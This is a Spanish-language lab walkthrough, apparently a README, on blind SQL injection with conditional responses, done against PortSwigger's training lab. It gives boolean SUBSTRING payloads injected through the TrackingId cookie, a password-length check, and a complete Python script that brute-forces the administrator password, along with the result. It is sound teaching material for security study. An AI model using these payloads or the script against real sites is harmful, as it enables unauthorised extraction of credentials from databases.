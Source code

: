 
---

# Guía práctica: SQLi Blind — respuestas condicionales

---

## Laboratorio PortSwigger

Para ilustrar con ejemplos reales usaremos el laboratorio gratuito de [PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses):

`https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses`

Todas las pruebas que se muestran a continuación se realizaron contra la URL provista por ese laboratorio.

---

## Confirmación de la vulnerabilidad

**Resumen:** en este laboratorio la entrada vulnerable es la cookie `TrackingId`. Para confirmarlo interceptamos peticiones con Burp Suite y observamos el valor de la cookie en la cabecera `Cookie`. También se puede ver con DevTools (`Ctrl+Shift+I`).

**Paso práctico (comprobación rápida):**

1. Intercepta una petición con Burp (o abre DevTools).
    
2. Localiza la cabecera `Cookie: TrackingId=...`.
    
3. Modifica temporalmente el valor añadiendo una comilla simple (`'`) al final:  
    `TrackingId=G1KUuxbiLkvBBAT5'`
    
4. Reenvía la petición y compara la respuesta con la original. En este laboratorio al añadir `'` se observa un cambio sutil en el contenido (por ejemplo, desaparece el texto `Welcome back!`), lo que indica que la entrada está afectando a la consulta SQL y que existe un comportamiento condicional en la aplicación.
    

> Nota: la ausencia de un error explícito no descarta SQLi. En _blind SQLi_ la aplicación no devuelve un mensaje de error claro; en su lugar, devuelve respuestas distintas (o con tiempos distintos) según el resultado de una condición SQL.

**Evidencia visual:**

![BupSuite](./Imágenes/burp_1.png)

![web](./Imágenes/web_a.png)

Fíjese que al introducir  `'` en el campo vulnerable obtenemos el error (vemos que desaparece el mensaje de `Welcome back!`)

![web](./Imágenes/web_b.png)

Con lo que nos tenemos que quedar es que cuando la query es correcta vemos el `Welcome back!`, es decir, vemos la parte de `Conditional response` y cuando la query es errónea no vemos el `Welcome back!`. La parte de `Blind` (a ciegas) es porque la página no va a mostrar ningún tipo de dato en su respuesta, es decir, ahora introduciremos una query así  `' UNION SELECT 'test'-- -`  o también `' UNION SELECT NULL-- -`. En ambas veremos `Welcome back!` ya que la query es correcta, es decir, sí que hay una columna (lo comprobamos con `' ORDER BY 1-- -`), pero no vemos `test` ni obviamente `NULL` en la página. Esto es porque la SQLi es a ciegas, es decir, realmente tenemos una vía potencial de extraer datos de las columnas y tablas, pero para ello vamos a tener que ir jugando con diferentes querys para poder ir construyendo carácter a carácter cada dato de la base de datos. Esto lo podemos hacer confirmando manualmente valores como la longitud de la tabla X, por qué letra empieza, etc. Pero también podemos automatizar con scripts el proceso entero o parte de él.


![BupSuite](./Imágenes/burp_2.png)

Confirmamos también que la query `' UNION SELECT schema_name FROM information_schema.schemata-- -` es una consulta válida. Pero como decíamos no vemos reflejada en la respuesta las bases de datos almacenadas. Para ello tendremos que usar querys que permitan extraer información por cada carácter válido.

![BupSuite](./Imágenes/burp_3.png)

Sabemos que en este laboratorio la tabla relevante es `users(username, password)` y nuestro objetivo es **recuperar la contraseña del usuario `administrator`**. Para ello vamos a usar comprobaciones booleanas simples que nos permitan inferir, carácter a carácter, el valor del campo `password`.

Antes de extraer datos, comprobamos que la aplicación responde de forma distinta según una condición booleana:

```sql
' AND 'a' = 'a'

' AND (SELECT 'a') = 'a'
```

Ambas expresiones evaluarán a TRUE. Si inyectamos cualquiera de ellas en el punto vulnerable y la respuesta del servidor mantiene el comportamiento “normal” (por ejemplo sigue mostrando un texto como Welcome back!), tenemos una señal fiable de que podemos utilizar **condiciones booleanas** para distinguir TRUE/FALSE.

![BupSuite](./Imágenes/burp_4.png)

![BupSuite](./Imágenes/burp_5.png)

![BrupSuite](./Imágenes/burp_8.png)

**Comprobación aplicada a la columna password**:

A partir de aquí planteamos una condición que compare la primera letra de la contraseña del usuario administrator con un carácter candidato. Si la comparación es verdadera la aplicación responderá como en el caso “normal”; si es falsa veremos un cambio observable.

Payload boolean-based (MySQL — primer carácter del password)

```sql
' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username = 'administrator' LIMIT 1) = 'a'-- -
```

Explicación: 

- SUBSTRING(password, 1, 1) obtiene el primer carácter del campo password.

- La subconsulta SELECT ... FROM users WHERE username = 'administrator' LIMIT 1 devuelve ese carácter para el usuario administrator.

- Comparamos el resultado con 'a'. Si la condición es TRUE la respuesta del servidor permanecerá igual; si es FALSE la respuesta cambiará (por ejemplo desaparecerá o cambiará un texto).

- Repetimos la prueba con otros caracteres ('b', 'c', '0', etc.) hasta identificar el carácter correcto.

- Para extraer la segunda letra usaríamos SUBSTRING(password, 2, 1), y así sucesivamente.


---

## Explotación

Como el campo que nos interesa obtener es el de contraseña, podemos aplicar este mismo principio para saber por que carácter empieza la contraseña del usuario administrator. Simplemente usamos la query de antes pero iterando por el campo `password,1,1`  

```sql
' and (select substring(password,1,1) from users where username='administrator') = '0'-- -
```

![BrupSuite](./Imágenes/burp_9.png)

Como tenemos una vía de extraer para cada carácter la contraseña, también tenemos una vía potencial de saber la longitud exacta de la contraseña. Usando el mismo principio y jugando con el parámetro `length(<valor>)`:

```sql
' and (select substring(username,1,1) from users where username='administrator' and length(password)=20) = 'a'-- -
```

Con esta query obtenemos una respuesta booleana de valor True al igualar la longitud del valor `password` del usuario llamado `administrator` ubicado en la tabla `users` de la base de datos en uso. La longitud resulta ser `20`. Con toda esta información podemos crear un script en python.

![BurpSuite](./Imágenes/burp_10.png)


---

## Script

```python
#!/usr/bin/env python3

from pwn import *
import requests, sys, signal, string

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    p1.failure("Ataque detenido")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits


p1 = log.progress("SQLi")


def makeSQLi():

    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                'TrackingId': f"NPOvQ2mmdkPKkeJz' and (select substring(password,{position},1) from users where username='administrator') = '{character}'-- -",
                'session': "ZviMqR53YnFwdgn0XCuNVlgwfHtkl7jK"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0ab900f804677dc9815b93e50088000e.web-security-academy.net/", cookies=cookies)

            if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()
```

Resultado:

```bash
[↑] Password: 612dsg72tl8gmicflnku
```

[^1]: 
